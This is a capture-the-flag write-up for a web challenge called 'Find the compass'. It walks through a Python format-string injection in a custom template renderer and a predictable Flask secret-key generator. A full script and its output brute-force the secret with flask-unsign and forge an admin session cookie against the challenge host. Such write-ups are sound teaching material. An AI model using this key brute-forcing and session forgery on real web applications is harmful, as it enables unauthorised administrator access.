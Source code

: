 # Find the compass

![head](images/head.png)

By looking at the source, we can see mutiple interesting things :

In : find_the_compass/lib/remindersRenderer.py
```python
class Renderer(object):
    """
    Proof of Concept to one day get rid of Jinja2. Who needs Jinja2 ?
    """
    def __init__(self, coordinates: str):
        # Only a wise administrator can retrieve the coordinates of the compass.
        self.coordinates = coordinates

    def render(self, author, content):
        author = escape(author)
        content = escape(content)
        htmlTemplate = f"<p><strong>{author}</strong>: {content}</p>"
        try:
            #Use escape for XSS protection
            return (htmlTemplate.format(self=self))
        except Exception as e:
            print(e)
            return "An error occured while rendering the reminder."
```

The above code seems to be vulnerable because we could inject someting like `{self.coordinate}` to get this variable. Unfortunately, we need to be authenticated to perform that.

In : find_the_compass/lib/utils.py
```python
def generate_key() -> str:
    """Generate a random key for the Flask secret (I love Python!)"""
    return (''.join([str(x) for x in [(int(x) ^ (int(time()) % 2 ^ randint(0, 2))) for x in [int(char) for char in str(digits[randint(0, 9)]) * 4]]])).rjust(8, '0')
```

The above function is used to generate the flask secret key. Let's decompose it.

First, `[int(char) for char in str(digits[randint(0, 9)]) * 4]` generates a list with 4 time the same number, like `[4, 4, 4, 4]`, which means:

```python
def generate_key() -> str:
    """Generate a random key for the Flask secret (I love Python!)"""
    return (''.join([str(x) for x in [(int(x) ^ (int(time()) % 2 ^ randint(0, 2))) for x in four_time_same()]])).rjust(8, '0')
```

The each number (that are the same) as operated with `(int(x) ^ (int(time()) % 2 ^ randint(0, 2)))` which means `x ^ (0 or 1) ^ (0, 1 or 2)`. By calculating all possibilities, we can find out that :

```python
>>> 0^0
0
>>> 0^1
1
>>> 0^2
2
>>> 1^0
1
>>> 1^2
3
>>> 1^3
2
```

So we have `x ^ (0, 1, 2 or 3)`

The function ends by transforming these numbers in string and adding 0 at the start to create a 8 chars string.

It's easy to generate all posibilities : 

```python
possible = [0, 1, 2, 3]
l = []
for i in range(10): # four time the same number
    for w in possible: # test all posibilites for each numbers
        for x in possible:
            for y in possible:
                for z in possible:
                    eq = f"{i^w}{i^x}{i^y}{i^z}".rjust(8, '0')
                    if not eq in l: # its possible that 2 equation generate the same key
                        l.append(eq)

print(f"Total : {len(l)}")
```

This gives us a total of 768 possibilities, that's way to much to bruteforce it in remote.

Fortunately, we can see that a session cookie is generated evn if we aren't connected : `.eJwNzMENwyAMAMBd_M4DjAGTZSIHbFQpIg_IK-ru7Q1wL1x379qOz4Dd5Jq6wbhHVdhBkDVqdMhJqZwpK9USPDfLGFwjJznlahHZs7iGgahotOCrQzmLwQZzyXrm_-qPzgXfH0y8IOA.ZeR8GQ.vi26B3Qn0X6VralO6kBbQmcyeKA`

Let's try to bruteforce the key using [flask-unsign](https://github.com/Paradoxis/Flask-Unsign).


```python
from os import popen
from requests import get
possible = [0, 1, 2, 3]
l = []
for i in range(10):
    for w in possible:
        for x in possible:
            for y in possible:
                for z in possible:
                    eq = f"{i^w}{i^x}{i^y}{i^z}".rjust(8, '0')
                    if not eq in l:
                        l.append(eq)
                        #print(eq)

print(f"Total : {len(l)}")

f = open("brt.txt", 'w')    
f.write("\n".join(l))
f.close()

print("Bruteforcing")
token = get("http://worker01.gcc-ctf.com:13229/logout").cookies["session"]
command = f'flask-unsign --wordlist brt.txt --unsign --cookie "{token}" --no-literal-eval'
print(command)

res = popen(command).read()
print(res)

print("Forging token")

secret_key = res.replace("'\n", "").replace("b'", "")

print(f"Secret key : {secret_key}")

command = f"flask-unsign --sign --cookie \"{{'username':'admin', 'status':'admin', 'logged_in':True}}\" --secret \"{secret_key}\""
print(command)
print(popen(command).read())
```

```
Total : 768
Bruteforcing
flask-unsign --wordlist brt.txt --unsign --cookie ".eJwNzMENwyAMAMBd_M4D44BNlqmIbVCliDwgr6q7tzfAfeC6e3d7vQccrV7TNxj3UIcDaizJOO9nFEFkwV2LJifLHGJN0ohRm0pVOUkCRpRMzMGoSJNgsMFcdT3zf_XH54LvDzX5IF0.ZeR86g.BOkmjDiAxSssa63D-g3H4MCs650" --no-literal-eval
[*] Session decodes to: {'logged_in': False, 'nonce': 'a295d764b288117814c9c5e3d6702a58f371cfc8ac8b380121863770d398f80d', 'status': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 256 attempts
b'00003303'

Forging token
Secret key : 00003303
flask-unsign --sign --cookie "{'username':'admin', 'status':'admin', 'logged_in':True}" --secret "00003303"
.eJyrViotTi3KS8xNVbJSSkzJzcxT0lEqLkksKS1GEsjJT09PTYkHsq1KikpTawH_xRLR.ZeR86w.DJLFiPs3jCWCgGO_M0v5BvO8qsE
```

Now that we have the token, it's possible to replace the old one ans refresh the page.

If we create the reminder `{self.coordinates}`, the flag appears.

![screen](images/screen1.png)

Thals for the challenge !
